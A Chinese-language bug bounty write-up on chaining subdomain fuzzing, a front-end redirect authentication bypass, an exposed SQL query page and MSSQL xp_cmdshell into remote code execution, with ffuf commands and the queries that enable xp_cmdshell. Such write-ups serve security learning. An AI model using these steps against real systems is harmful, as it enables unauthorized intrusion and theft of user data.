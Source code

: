 # 子域名模糊测试：管理页面前端验证绕过拿下SQL，升级RCE

该文章的作者是**Abdullah Nawaf**，全职漏洞赏金猎人，在BugCrowd中排名前50，P1漏洞排名第11。

本文介绍了**如何使用子域名模糊测试和链接多个漏洞来获取完整的RCE（远程代码执行）漏洞。**

## 描述

2022年的时候，作者在Bugcrowd上报告了一个私人程序带的Auth Bypass导致SQLI&RCE，该漏洞在报告后一天就被修复。

2024年3月，作者决定重新测试他们的旧bug。他们的测试目标为：`admin.Target.com` 通过使用下面的命令进行子域模糊测试：

```bash
ffuf -w /subdomain_megalist.txt -u 'https://adminFUZZ.Target.com' -c  -t 350 -mc all  -fs 0
```

> 模糊测试字典：`subdomain_megalist.txt` 放在最后附录部分。

使用上述命令，作者发现了子域名：`admintest.Target.com`

![](././../../img/1_gJy6VL-cev_f7AJYhexNUA.jpg)

> 在图片中可以看到很多错误信息，但这没关系，因为在进行子域模糊测试时，错误信息表示这些子域名不可用。

`admintest.Target.com`很可能存在漏洞，因为它与原始子域`admin.Target.com`拥有相同的后端。 下面将逐个讨论作者发现的漏洞。

## 认证绕过（Auth Bypass）和浏览器自动完成（BAC）

`https://admintest.Target.com`被重定向到`https://admintest.Target.come/admin/login.aspx`

在阅读js文件时，我们发现了一个文件'https://admintest.Target.com/admin/main.aspx'。 直接在浏览器会再次重定向到登录页面，但在Burp中我们发现了一些有趣的东西。

![](./../../img/1_k8jW7uXrw6p-_-iphOWFYw.jpg)

重定向响应的`Content-Length` 大小异常的大（怀疑前端验证造成）。通过删除三个访问头，最终获得完全访问权限，至此打开访问面板。

![](./../../img/1_DOtsrYi_CHbtQMs_KB4KpQ.jpg)

使用Burp拦截响应，并修改以下访问头。

```html
将 302 Moved Temporarily 改为 200 OK
删除 Location: /admin/Login.aspx?logout=y
删除 html redirect code 
```

至此，作者成功实现了身份验证绕过，获得平台全部功能。随后通过深度挖掘，发现名为`adduser.aspx`的文件，该文件使用与`main.aspx`相同的技巧将访问重定向到登录页面。

利用上述相同的绕过方法，成功访问`adduser.aspx`页面并创建了一个管理员账户。 此外，还发现了一个无需身份验证即可显示**管理员密码和用户名**的地方。

![](./../../img/1_s1JhYLJSoteMFI30xYkZ_Q.jpg)

## SQL注入攻击

添加管理员账户后，就可以直接登录系统，这比使用认证绕过更方便。 随后，作者发现一个名为`SQLQuery.aspx`的端点，从名称就可以猜出它的功能。 首先，我尝试了以下的查询：

```sql
Select * from users;
```
结果，直接能看到所有用户的信息，包括密码、电子邮件和用户名。

## 远程代码执行（RCE）漏洞

由于数据库是`mssql`，作者尝试使用`xp_cmdshell`将其升级为RCE。

> `xp_cmdshell` 存储过程是 SQL Server 中的一个强大功能，可用于在 SQL 语句中执行系统命令。它允许数据库管理员或具有适当权限的用户直接从 SQL Server 访问操作系统功能。默认禁用，攻击者可以利用它来窃取敏感数据、安装恶意软件甚至完全控制系统。

简单来说，`xp_cmdshell` 允许用户通过`mssql`执行系统命令。 默认情况下，它是禁用的，但是可以轻松启用它。例如使用`sqlmap`工具的`--os-shell`参数。 不过这里能够直接向数据库发送查询，就无需使用`sqlmap`。 要让`xp_cmdshell`正常工作，我们首先需要使用以下查询启用它：

```sql
SP_CONFIGURE "show advanced options", 1
RECONFIGURE
SP_CONFIGURE "xp_cmdshell", 1
RECONFIGURE
```

然后，执行`xp_cmdshell 'whoami'` 拿下RCE漏洞。

![](./../../img/2.jpg)

作者将发现的多个问题整理成一份报告，并将另一个端点中发现的另一个SQL注入漏洞单独报告，最终获得了35000美元的赏金。

## 总结

1. **始终检查Burp中的重定向响应。**

作者发现了许多类似的身份验证绕过漏洞，作者第一次获得赏金是在2020年，利用的是相同的技巧：`/admin/admin.php`重定向到`login.php`。但是，当使用Burp查看响应时，发现`admin.php`页面可以正常工作，只是前端重定向。

2. **如果你在子域名中发现并修复了漏洞请尝试使用子域名模糊测试。**

**子域名模糊测试参考格式：**

```context
admin-FUZZ.target.com E.G: admin-stg.target.com
FUZZ-admin.target.com E.G: cert-admin.target.com
adminFUZZ.target.com  E.G: admintest.target.com
FUZZadmin.target.com  E.G  testadmin.target.com
admin.FUZZ.target.com E.G: admin.dev.target.com
```

**模糊测试命令：**

```bash
ffuf -w /subdomain_megalist.txt -u 'https://adminFUZZ.Target.com' -c  -t 350 -mc all  -fs 0

-t 线程数 , 根据你的t带宽设置，尽量不要设置太高，否则你可能会错过很多正常的子域名 , 
,作者使用vps将线程设置为 350 。

-mc all 代表匹配所有的响应码 比如 200,302,403 这一点非常重要。
```

3. **在提交报告之前尝试升级漏洞。**

4. **质量大于数量**

> 当你发现多个漏洞或将多个漏洞组合在一起时，请尝试将其作为一份报告提交，你将获得更高的赏金！

## 附录：

### 子域名爆破字典：

[subdomain_megalist.txt](https://github.com/netsecurity-as/subfuz/blob/master/subdomain_megalist.txt)

更多更大的字典：

[SecLists/Discovery/DNS ](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

## 使用的工具：

模糊测试神器：[ffuf](https://github.com/ffuf/ffuf)

Web安全测试神器：[Burp suite](https://portswigger.net/burp)

SQL注入检测和利用神器：[sqlmap](https://github.com/sqlmapproject/sqlmap)

